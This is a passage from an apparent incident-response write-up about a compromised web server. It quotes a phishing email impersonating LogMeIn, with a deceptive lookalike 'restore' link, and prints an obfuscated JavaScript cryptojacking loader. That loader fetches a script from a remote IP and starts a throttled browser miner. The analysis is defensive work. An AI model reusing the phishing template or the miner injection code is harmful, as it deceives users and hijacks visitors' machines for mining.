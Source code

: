 ```
-8?B?TG9nTWVJbi5jb20=?= <noreplay@logmein.com>, ,   , <p>Event: Computer deleted</p>  , <p>If this is an error, use the link bellow to restore your computer back.</p>
, <p><a rel="nofollow noopener" target="_blank" href="https://restore.logmein.click/pc/?e=bmV0LmFzc2FzeW5AeWFob28uY29t" style="outline: none; color: #00aeef; font-weight:
bold; text-decoration: none;">http://restore.logmein.com/login.aspx?clusterid=YXRoZW5lb3NAYXRoZW5lb3NjYWZlLmNvbQ==</a><br /> <br /> Account holder: atheneos@atheneoscafe.com
<br /> Computer ID: 5714726389 <br /> At: 21.12.2018 13:03:20<br /> From: 127.0.0.1 (localhost)<br /> <br /> LogMeIn Account Holders can change notification settings
by clicking their LogMeIn ID in the upper-right corner of LogMeIn Central and then Account &gt; Security &gt; Account Audit.</p>  , <p></p>  , <p><span style="color: #333333;
font-family: arial, sans-serif; font-size: 11px; font-style: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; white-space:
normal; widows: 2; word-spacing: 0px; background-color: #ffffff; text-decoration-color: initial; display: inline !important; float: none;">Copyright &copy; 2003-2018 LogMeIn,
Inc.</span><a rel="nofollow noopener" target="_blank" href="https://secure.logmein.com/policies/trademark.aspx" style="margin: 0px; padding: 0px; border: 0px; font-style: normal;
font-weight: 400; font-stretch: inherit; font-size: 11px; line-height: inherit; font-family: arial, sans-serif; vertical-align: baseline; outline: 0px; color: #0088ce;
text-decoration: none; cursor: pointer; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; white-space: normal; widows: 2; word-spacing: 0px;
background-color: #ffffff;">All rights reserved.</a></p>  ,   ,   ,
```

This looked more like phishing activity and I thought there could be more dark things lurking in this machine. This explained why removing the scripts did not close the connections.

## Phishing Attack

I realized there were potentially 2 (common) ways to attacking this server: either through the **ssh** open port **22** or through the web application (hosted on port **80**). Since there were a lot of activity with the web-server, I visited the domain of the website and checked for suspicious elements on the background.

Upon visiting the site’s main page https://subdomain.website.ca and when inspecting the elements on the HTML page of the site, I found a hidden javascript tag code:

![Suspicious Script](post/cryptojacking-phishing-savi/suspicious_script.png)

Just like any (in)sane person would do, I downloaded the file and took a look:

```console
user@host:$  wget http://wt-23...full-http-control
user@host:$ cat full-http-control
var _0x17e1=["script","createElement","type","text/javascript","readyState","onreadystatechange","loaded","complete","onload","src","appendChild","head",
"getElementsByTagName","http://146.185.234.xx/hhY6.js","undefined","stop","_client","56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742","start"];
function loadScript(_0x17a8x2,_0x17a8x3){var _0x17a8x4=document[_0x17e1[1]](_0x17e1[0]);_0x17a8x4[_0x17e1[2]]= _0x17e1[3];if(_0x17a8x4[_0x17e1[4]])
{_0x17a8x4[_0x17e1[5]]= function(){if(_0x17a8x4[_0x17e1[4]]== _0x17e1[6]|| _0x17a8x4[_0x17e1[4]]== _0x17e1[7]){_0x17a8x4[_0x17e1[5]]= null;_0x17a8x3()}}}
else {_0x17a8x4[_0x17e1[8]]= function(){_0x17a8x3()}};_0x17a8x4[_0x17e1[9]]= _0x17a8x2;document[_0x17e1[12]](_0x17e1[11])[0][_0x17e1[10]](_0x17a8x4)}
loadScript(_0x17e1[13],function(){setTimeout(function(){if( typeof (miner)!= _0x17e1[14]){try{miner[_0x17e1[15]]()}catch(e){}};if( typeof (_client)!=
_0x17e1[14]){try{_client[_0x17e1[15]]()}catch(e){}};document[_0x17e1[16]]=  new
Client.Anonymous(_0x17e1[17],{throttle:0.3});document[_0x17e1[16]][_0x17e1[18]](Client.FORCE_MULTI_TAB)},1000)})
```
A cleaner version would be:
```
var _0x17e1=
["script",
"createElement",
"Type",
```